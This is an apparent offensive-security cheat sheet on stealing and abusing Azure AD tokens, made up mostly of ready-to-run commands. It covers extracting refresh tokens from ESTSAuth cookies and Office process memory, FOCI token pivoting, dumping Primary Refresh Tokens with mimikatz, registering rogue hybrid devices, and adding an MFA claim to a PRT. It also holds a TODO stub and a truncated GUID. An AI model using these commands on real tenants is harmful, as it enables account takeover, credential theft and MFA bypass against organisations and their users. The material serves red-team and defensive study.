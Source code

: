 # Azure AD Tokens


## Access Token

Decode access tokens: [jwt.ms](https://jwt.ms/)

* Request an access token using a service principal password
    ```ps1
    curl --location --request POST 'https://login.microsoftonline.com/<tenant-name>/oauth2/v2.0/token' \
    --header 'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode 'client_id=<client-id>' \
    --data-urlencode 'scope=https://graph.microsoft.com/.default' \
    --data-urlencode 'client_secret=<client-secret>' \
    --data-urlencode 'grant_type=client_credentials'
    ```
* Use an access token
    ```ps1
    # use the jwt
    $token = "eyJ0eXAiO..."
    $secure = $token | ConvertTo-SecureString -AsPlainText -Force
    Connect-MgGraph -AccessToken $secure

    # whoami
    Get-MgContext
    Disconnect-MgGraph
    ```


## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```
* 


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## FOCI Refresh Token

FOCI allows applications registered with Azure AD to share tokens, minimizing the need for separate authentications when a user accesses multiple applications that are part of the same "family."

* [secureworks/family-of-client-ids-research/](https://github.com/secureworks/family-of-client-ids-research/blob/main/scope-map.txt) - Research into Undocumented Behavior of Azure AD Refresh Tokens

**Generate tokens**   

```ps1
roadtx gettokens --refresh-token <refresh-token> -c <foci-id> -r https://graph.microsoft.com 
roadtx gettokens --refresh-token <refresh-token> -c 04b07795-8ddb-461a-bbee-02f9e1bf7b46
```

```
scope               resource                                client                              
.default            04b07795-8ddb-461a-bbee-02f9e1bf7b46    04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    1950a258-227b-4e31-a9cf-717495945fc2    1950a258-227b-4e31-a9cf-717495945fc2
                    https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://graph.windows.net               00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                            04b07795-8ddb-461a-bbee-02f9e1bf7b46
Files.Read.All      d3590ed6-52b3-4102-aeff-aad2292ab01c    d3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://graph.microsoft.com             3590ed6-52b3-4102-aeff-aad2292ab01c
                    https://outlook.office.com              1fec8e78-bce4-4aaf-ab1b-5451cc387264
Mail.ReadWrite.All  https://graph.microsoft.com             00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office.com              00b41c95-dab0-4487-9791-b9d2c32c80f2
                    https://outlook.office365.com           00b41c95-dab0-4487-9791-b9d2c32c80f2
```


## Primary Refresh Token

A Primary Refresh Token (PRT) is a key artifact in the authentication and identity management process in Microsoft's Azure AD (Azure Active Directory) environment. The PRT is primarily used for maintaining a seamless sign-in experience on devices. 

* Use PRT token
    ```ps1
    roadtx browserprtauth --prt <prt-token> --prt-sessionkey <session-key>
    roadtx browserprtauth --prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT v1

```ps1
mimikatz # token::elevate
mimikatz # sekurlsa::cloudap
mimikatz # sekurlsa::dpapi
mimikatz # dpapi::cloudapkd /keyvalue:<key-value> /unprotect
roadtx browserprtauth --prt <prt> --prt-sessionkey <clear-key> --keep-open -url https://portal.azure.com
```


### Extract PRT on Device with TPM

* No method known to date.


### Request a PRT using the Refresh Flow

* Request a nonce from AAD: `roadrecon auth --prt-init -t <tenant-id>`
* Use [dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken) or [wotwot563/aad_prt_bof](https://github.com/wotwot563/aad_prt_bof) to initiate a new PRT request.
* `roadrecon auth --prt-cookie <prt-cookie> --tokens-stdout --debug` or  `roadtx gettoken --prt-cookie <x-ms-refreshtokencredential>`
* Then browse to [login.microsoftonline.com ](login.microsoftonline.com ) with a cookie `x-ms-RefreshTokenCredential:<output-from-roadrecon>`


### Request a PRT with Hybrid Device

Requirements:

* ADDS user credentials
* hybrid environment (ADDS and Azure AD)

Use the user account to create a computer and request a PRT

* Create a computer account in AD: `impacket-addcomputer <domain>/<username>:<password> -dc-ip <dc-ip>`
* Configure the computer certificate in AD with [dirkjanm/roadtools_hybrid](https://github.com/dirkjanm/roadtools_hybrid): `python setcert.py 10.10.10.10  -t '<machine-account$>' -u '<domain>\<machine-account$>' -p <machine-password>`
* Register the hybrid device in Azure AD with this certificate: `roadtx hybriddevice -c '<machine-account>.pem' -k '<machine-account>.key' --sid '<device-sid>' -t '<aad-tenant-id>'`
* Get a PRT with device claim

    ```ps1
    roadtx prt -c <hybrid-device-name>.pem -k <hybrid-device-name>.key -u <username>@h<domain> -p <password>
    roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
    ```


### Upgrade Refresh Token to PRT

* Get correct token audience: `roadtx gettokens -c 29d9ed98-a469-4536-ade2-f981bc1d605e -r urn:ms-drs:enterpriseregistration.windows.net --refresh-token file`
* Registering device: `roadtx device -a register -n <device-name>`
* Request PRT `roadtx prt --refresh-token <refresh-token> -c <device-name>.pem -k <device-name>.key`
* Use a PRT: `roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com`


### Enriching a PRT with MFA claim

* Request a special refresh token: `roadtx prtenrich -u username@domain`
* Request a PRT with MFA claim: `roadtx prt -r <refreshtoken> -c <device>.pem -k <device>.key`


## References

* [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
* [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)
* [PRT Abuse from Userland with Cobalt Strike - 0xbad53c](https://red.0xbad53c.com/red-team-operations/azure-and-o365/prt-abuse-from-userland-with-cobalt-strike)